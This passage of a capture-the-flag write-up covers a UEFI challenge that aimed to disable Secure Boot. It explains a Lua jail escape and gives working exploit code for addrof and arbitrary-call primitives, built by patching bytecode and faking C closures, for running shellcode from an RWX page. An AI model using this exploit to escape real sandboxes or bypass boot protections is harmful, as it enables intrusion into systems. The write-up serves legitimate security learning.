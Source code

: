 ## Exploitation

This was my first UEFI challenge, so I spent a lot of time reading EDK2 code. The goal was to disable Secure Boot. Initially, I tried doing everything from Lua, including creating arbitrary read/write functions. At some point, I started thinking about executing shellcode. I used the exploit provided in the hint, but had to remove a few local keywords to avoid errors.

I created a string and printed its address. When checking the memory permissions, I noticed that it lived in an RWX page—meaning I could place shellcode there and execute it using the Lua exploit. The Lua jail escape gave me both an addrof primitive and an arbitrary function call to any address.

```lua
as_num = string.dump(function(...) for n = ..., ..., 0 do return n end end)
as_num = as_num:gsub("\x21", "\x17", 1)
as_num = assert(load(as_num))

function addr_of(x) return as_num(x) * 2^1000 * 2^74 end

function ub8(n)
  local t = {}
  for i = 1, 8 do
    local b = n % 256
    t[i] = string.char(b)
    n = (n - b) / 256
  end
  return table.concat(t)
end

upval_assign = string.dump(function(...)
  local magic
  (function(func, x)
    (function(func)
      magic = func
    end)(func)
    magic = x
  end)(...)
end)
upval_assign = upval_assign:gsub("(magic\x00\x01\x00\x00\x00\x01)\x00", "%1\x01", 1)
upval_assign = assert(load(upval_assign))

function make_CClosure(f, up)
  local co = coroutine.wrap(function()end)

  local offsetof_CClosure_f = 24
  local offsetof_CClosure_upvalue0 = 32
  local sizeof_TString = 24
  local offsetof_UpVal_v = 16
  local offsetof_Proto_k = 16
  local offsetof_LClosure_proto = 24
  local upval1 = ub8(addr_of(co) + offsetof_CClosure_f)
  local func1 = ub8(addr_of("\x00\x00\x00\x00\x00\x00\x00\x00") - offsetof_Proto_k) .. ub8(addr_of(upval1) + sizeof_TString - offsetof_UpVal_v)
  local upval2 = ub8(addr_of(co) + offsetof_CClosure_upvalue0)
  local func2 = func1:sub(1, 8) .. ub8(addr_of(upval2) + sizeof_TString - offsetof_UpVal_v)
  upval_assign((addr_of(func1) + sizeof_TString - offsetof_LClosure_proto) * 2^-1000 * 2^-74, f * 2^-1000 * 2^-74)
  upval_assign((addr_of(func2) + sizeof_TString - offsetof_LClosure_proto) * 2^-1000 * 2^-74, up)
  
  return co
end

a = "AAAAAAAA"
addr = addr_of(a)
print(string.format("0x%X", addr))
```